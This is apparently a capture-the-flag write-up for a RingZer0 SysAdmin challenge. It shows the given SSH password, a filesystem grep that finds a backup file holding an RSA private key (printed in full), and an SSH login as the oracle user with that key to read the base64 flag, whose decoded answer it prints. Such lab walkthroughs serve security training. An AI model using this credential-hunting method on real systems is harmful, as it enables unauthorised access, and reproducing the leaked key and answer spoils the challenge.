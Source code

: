 # SysAdmin part 4

__PROBLEM__

Get access to the oracle account.

User: morpheus
Password: VNZDDLq2x9qXCzVdABbR1HOtz

ssh morpheus@challenges.ringzer0team.com -p 10146

__SOLUTION__

This we need access to oracle's account. I started with normal grep like `grep 'oracle' -R /` which gave permission denied and stuff so I did `grep 'oracle' -R / 2>/dev/null`. This will also give you lot of outputs but you'll notice in the end
```bash
....
/usr/lib/x86_64-linux-gnu/perl/5.22/DB_File.pm:The official web site for Berkeley DB is F<http://www.oracle.com/technology/products/berkeley-db/db/index.html>.
/usr/lib/x86_64-linux-gnu/perl/5.22/DB_File.pm:F<http://www.oracle.com/technology/products/berkeley-db/db/index.html>) regarding the license:
/usr/lib/x86_64-linux-gnu/perl/5.22.1/DB_File.pm:The official web site for Berkeley DB is F<http://www.oracle.com/technology/products/berkeley-db/db/index.html>.
/usr/lib/x86_64-linux-gnu/perl/5.22.1/DB_File.pm:F<http://www.oracle.com/technology/products/berkeley-db/db/index.html>) regarding the license:
Binary file /backup/c074fa6ec17bb35e168366c43cf4cd19 matches
Binary file /bin/udevadm matches
Binary file /bin/systemd matches
```

And if you'll do `cat /backup/c074fa6ec17bb35e168366c43cf4cd19` again you will get lot's of output but you'll notice a RSA private key in there.
```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqBIMY0jPs4dvQqsyHreYccCOIMFrBy+el5Td8TNc8pQqINNr
WSefxANe4b0EaAZofvZbBGrHipyB6X+FgugXYqwB0uem06uTGnIdHAZyHV6IE9f/
hLCm+9nWOJfUvPNFbMaIizvzMVhO6GTGyxJ8zh/ASQXYBHSzyOxkmqDLB7zFteyJ
F7hv6s6W20TmpjhMQtOC0mYwn64ZCsVi2d1c7tFiw37cOutT1LfZaaAUBIwdpvL6
BFjqpNkxzwm105eFTDt4WZNKOZ9nOns18MHBHFOXk8WgAxC6gqtE2gr7cTBZsbwv
jXrte8oTtAWCv3YHSECH91NzE3DKVktCwr1bjQIDAQABAoIBAQCdefu9c1WZY4bu
MrYNbf0aaE9Dhbcgzo+Me+HQxE2MxSMMCsyEhsn9wSK/5Hkidw6mF3KEmwBIcgiP
nfqdA5YV0BENahw4LITyvIVl4uw9dHuQDEzQKSzswdkkwa6FNHOSThtWSl+9ln6o
5PQXBkWGZN2oDh+vXSGvWz+QWqSho8vufmTtYntfFPAfVfcyp8BtiUgKQh069uGg
XKnehmkrHoW9gQ2Lo0uaFWcTIGm1vsgBd7L4cfb98jDB63H+Lhf4UPYv4WmH2rrj
bnk5lAU71JK4QsPnnOx1PA685p2e5mEfh0LKRKq9Fx3+umbGPJGvgcjobtXaW9OT
mpaz6ZPBAoGBAM+diN8s/osQdi8odS9+HUWVZBa9Z2Dn0X2IlSxWK9u/UclhjYgP
i2KXEY0wRV+ZiXURmrFNVxgA/EJ9BOgptSZNmi9fEdfnVB4L11T7HFny/J8u3sXt
dn0OqHmf5ZEPtV7m0bK0jtznTgTTuBI9yXvRgHO2HQPCshdP7GIgt++lAoGBAM89
Pd7HyMYnh0ancCTICkVIIWF6Ylf20BKz4Zwy9tYASCxY3iFllBdOXw/UgCnmJseQ
73Dcimi5OEyUckOp7xX4HTwidFVbxfNeC0ZfsPbd22qSDcw5orpQMoDy3iP+bPJh
SgwtusqotGjm0jTpnhqRV5x6rchzkMYwF8/WkvfJAoGBAMeem6yh0XiaclfzWYE5
jCGMezjWEeD949IEkhGYJQFbmeK79l49O/KmeAy9veYmdSDntUoGp9f/kozHMgGb
oH5cnQQxL7HczWc6UWd3LhJabIUNhsreAFBL2Ldgg1UPun6uBjACJV7G06AWhWSc
ne58SDp5frpP5/Y8NXdAKDq1AoGAYCSFQ4lj96n29CxRtn6nZSTld5eTcEOsnECf
dhuesAFJemlwBAZgAb/2Eh3/p3CCpSr0KmPmQldLaxujNwjrRkHpLjC9z6vX1ePX
TzqtmpmqZXKEvC4w9EaoZ3JE5GXwnTHNbID6m3JQ4CnVc36+Po0XHB096jTTAV7m
bSGa5SECgYBE2IuW1pk2pOZ+FDtKltWHk8KK89QmGsFf2YnVZ/FsAkPnayeTkmMz
AWxRP/W/Uj5ypw7KjprQee31hkisBG/ZPBvQdjAvxF7m4usuEN2Nkb0FTIjZHYbD
iPOmPHIUlwwL8UVzDQUzXhegSB4GUeP/06T/eM5PPB8SX0ZaHIw1wQ==
-----END RSA PRIVATE KEY-----
```

Put it in a file and do the `chmod 600 file`. Basically this is private key for oracle's account and using this key we will ssh in his account.

Now disconnect from the server and connect again using following command:
```bash
ssh oracle@challenges.ringzer0team.com -p 10146 -i keyz
```

Here `keyz` is the name of the file which holds the private key. Also do not forget to `chmod` the file before using it or else you'll get error.

Now we are in oracle's account:

```bash
Last login: Thu Jan 10 22:11:20 2019 from 77.87.48.26
oracle@lxc-sysadmin:~$ ls
encflag.txt.enc  flag.txt
oracle@lxc-sysadmin:~$ cat flag.txt
RkxBRy1kMzI1ZTczOGZhN2Q4N2Q0ZjU2MDdjMzAyYjM3ZGIyMA==
oracle@lxc-sysadmin:~$ echo "RkxBRy1kMzI1ZTczOGZhN2Q4N2Q0ZjU2MDdjMzAyYjM3ZGIyMA==" | base64 -d
FLAG-d325e738fa7d87d4f5607c302b37db20oracle@lxc-sysadmin:~$
```

FLAG - `FLAG-d325e738fa7d87d4f5607c302b37db20`
